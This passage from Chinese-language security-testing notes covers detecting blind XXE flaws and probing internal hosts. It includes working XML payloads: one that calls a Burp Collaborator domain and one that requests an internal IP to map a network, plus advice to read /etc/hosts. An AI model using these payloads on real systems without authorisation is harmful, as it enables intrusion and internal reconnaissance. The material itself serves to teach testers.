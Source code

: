   >    ~~~
   >
   > 3. 再查看是否支持引用外部实体：使用burp上的DNSlog，则存在xxe漏洞【无回显的XXE】
   >
   >    ~~~xml-dtd
   >    <?xml version="1.0" encoding="UTF-8"?>
   >    <!DOCTYPE root[
   >      <!ENTITY test SYSTEM "http://l0m3h4u0t6ftb1avnsn7yc9qlhr7fw.burpcollaborator.net">
   >    ]>
   >    <root>
   >    	&test;
   >    </root>
   >    ~~~
   >
   >    > ![image-20210908121915084](../images/14_XXE漏洞/image-20210908121915084.png)

### 四、内网主机探测

1. 若是存在有回显的XXE漏洞，则可以通过查看`/etc/hosts`来查看内网地址

   ![image-20210909235712983](../images/14_XXE漏洞/image-20210909235712983.png)

2. 若是存在无回显的XXE漏洞，则可以通过查看获取响应包的速度来判断某个ip是否在内网中（如果立即返回，则说明内网中存在这个ip地址）

   ~~~xml-dtd
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE ANY[
     <!ENTITY xxe SYSTEM "http://172.31.1.149">	<!-- 通过该语句的设置来判断该ip是否存在于内网中 -->
   ]>
   <user>
   	<username>
   		&xxe;	<!-- 在存在漏洞的地方引用该语句 -->
   	</username>
   	<password>
   		admin
   	</password>
   </user>
   ~~~
